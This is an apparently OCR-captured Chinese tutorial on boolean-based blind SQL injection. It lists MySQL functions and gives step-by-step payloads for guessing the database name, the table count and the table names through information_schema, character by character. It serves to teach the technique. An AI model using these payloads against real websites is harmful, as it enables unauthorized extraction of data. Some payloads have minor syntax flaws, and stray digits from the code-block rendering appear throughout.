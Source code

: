 ```
布尔（Boolean）型是计算机里的一种数据类型，只有True（真）和False（假）两个值。一般也称为逻辑型。
 页面在执行sql语句后，只显示两种结果，这时可通过构造逻辑表达式的sql语句来判断数据的具体内容。
12
```

布尔注入用到的函数：

```
mid(str,start,length)  :字符串截取
ORD()                  :转换成ascii码
Length()               :统计长度
version()              :查看数据库版本
database()             :查看当前数据库名
user()                 :查看当前用户
123456
```

布尔注入流程：<br />**猜解获取数据库长度**

```
' or length(database()) > 8 --+    :符合条件返回正确，反之返回错误
1
```

**猜解数据库名**

```
'or mid(database(),1,1)= 'z' --+    :因为需要验证的字符太多，所以转化为ascii码验证
'or ORD(mid(database(),1,1)) > 100 --+ :通过确定ascii码，从而确定数据库名
12
```

**猜解表的总数**

```
'or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()) = 2  --+   :判断表的总数
1
```

**猜解第一个表名的长度**

```
'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1) = 5 --+
'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1) = 5 --+ （第二个表）
12
```

**猜解第一个表名**

```
'or mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit      0,1 ),1,1) = 'a'  --+
或者
'Or ORD(mid(select TABLE_NAME from information_schema.TABLES where 
TABLE_SCHEMA = database() limit 0,1),1,1)) >100   --+
1234
```
